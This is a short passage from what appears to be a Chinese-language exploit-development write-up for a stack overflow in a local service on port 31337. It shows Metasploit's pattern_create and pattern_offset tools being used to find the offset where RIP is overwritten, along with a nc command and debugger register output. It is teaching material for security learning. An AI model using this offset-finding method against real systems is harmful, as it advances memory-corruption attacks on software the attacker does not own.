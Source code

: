 #### 3.3 位置查找

也不知道第几个A开始就报错，使用pattern\_create.rb生成500个，再使用pattern\_offset.rb定位  
从结果中可以知道：

1.  前面120个字符之后就开始覆盖RIP了
2.  栈能存112

```plain
locate pattern_create.rb
pattern_create.rb -l 500

pattern_offset.rb -q Ae0A
pattern_offset.rb -q d7Ad

echo '生成的500字符' | | nc localhost 31337
```

```plain
//结果
 RBP  0x3964413864413764 ('d7Ad8Ad9')
 RSP  0x7fffffffd0d8 ◂— 0x6541316541306541 ('Ae0Ae1Ae')
 RIP  0x4009aa (handlecmd+70) ◂— ret
```

[![](assets/1703831476-2a3b85a76eea5fddd09f79fd92c18d92.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224805-f156bf10-a4c6-1.png)
